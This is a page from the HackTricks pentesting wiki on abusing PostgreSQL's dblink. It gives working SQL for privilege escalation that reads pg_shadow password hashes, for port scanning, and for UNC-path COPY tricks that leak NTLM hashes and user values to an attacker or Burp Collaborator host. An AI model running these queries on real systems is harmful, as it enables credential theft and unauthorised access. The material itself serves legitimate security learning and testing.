 # Network - Privesc, Port Scanner and NTLM chanllenge response disclosure

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**Find** [**more information about these attacks in the original paper**](http://www.leidecker.info/pgshell/Having_Fun_With_PostgreSQL.txt).

Since **PostgreSQL 9.1**, installation of additional modules is simple. [Registered extensions like `dblink`](https://www.postgresql.org/docs/current/contrib.html) can be installed with [`CREATE EXTENSION`](https://www.postgresql.org/docs/current/sql-createextension.html):

```sql
CREATE EXTENSION dblink;
```

Once you have dblink loaded you could be able to perform some interesting tricks:

### Privilege Escalation

The file `pg_hba.conf` could be bad configured **allowing connections** from **localhost as any user** without needing to know the password. This file could be typically found in `/etc/postgresql/12/main/pg_hba.conf` and a bad configuration looks like:

```
local    all    all    trust
```

_Note that this configuration is commonly used to modify the password of a db user when the admin forget it, so sometimes you may find it._\
&#xNAN;_&#x4E;ote also that the file pg\_hba.conf is readable only by postgres user and group and writable only by postgres user._

This case is **useful if** you **already** have a **shell** inside the victim as it will allow you to connect to postgresql database.

Another possible misconfiguration consist on something like this:

```
host    all     all     127.0.0.1/32    trust
```

As it will allow everybody from the localhost to connect to the database as any user.\
In this case and if the **`dblink`** function is **working**, you could **escalate privileges** by connecting to the database through an already established connection and access data shouldn't be able to access:

```sql
SELECT * FROM dblink('host=127.0.0.1
                          user=postgres
                          dbname=postgres',
                         'SELECT datname FROM pg_database')
                      RETURNS (result TEXT);

SELECT * FROM dblink('host=127.0.0.1
                          user=postgres
                          dbname=postgres',
                         'select usename, passwd from pg_shadow')
                      RETURNS (result1 TEXT, result2 TEXT);
```

### Port Scanning

Abusing `dblink_connect` you could also **search open ports**. If that \*\*function doesn't work you should try to use `dblink_connect_u()` as the documentation says that `dblink_connect_u()` is identical to `dblink_connect()`, except that it will allow non-superusers to connect using any authentication method\_.

```sql
SELECT * FROM dblink_connect('host=216.58.212.238
                                  port=443
                                  user=name
                                  password=secret
                                  dbname=abc
                                  connect_timeout=10');
//Different response
// Port closed
RROR:  could not establish connection
DETAIL:  could not connect to server: Connection refused
	Is the server running on host "127.0.0.1" and accepting
	TCP/IP connections on port 4444?

// Port Filtered/Timeout
ERROR:  could not establish connection
DETAIL:  timeout expired

// Accessing HTTP server
ERROR:  could not establish connection
DETAIL:  timeout expired

// Accessing HTTPS server
ERROR:  could not establish connection
DETAIL:  received invalid response to SSL negotiation:
```

Note that **before** being able to use `dblink_connect` or `dblink_connect_u` you may need to execute:

```
CREATE extension dblink;
```

### UNC path - NTLM hash disclosure

```sql
-- can be used to leak hashes to Responder/equivalent
CREATE TABLE test();
COPY test FROM E'\\\\attacker-machine\\footestbar.txt';
```

```sql
-- to extract the value of user and send it to Burp Collaborator
CREATE TABLE test(retval text);
CREATE OR REPLACE FUNCTION testfunc() RETURNS VOID AS $$ 
DECLARE sqlstring TEXT;
DECLARE userval TEXT;
BEGIN 
SELECT INTO userval (SELECT user);
sqlstring := E'COPY test(retval) FROM E\'\\\\\\\\'||userval||E'.xxxx.burpcollaborator.net\\\\test.txt\'';
EXECUTE sqlstring;
END;
$$ LANGUAGE plpgsql SECURITY DEFINER;
SELECT testfunc();
```

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

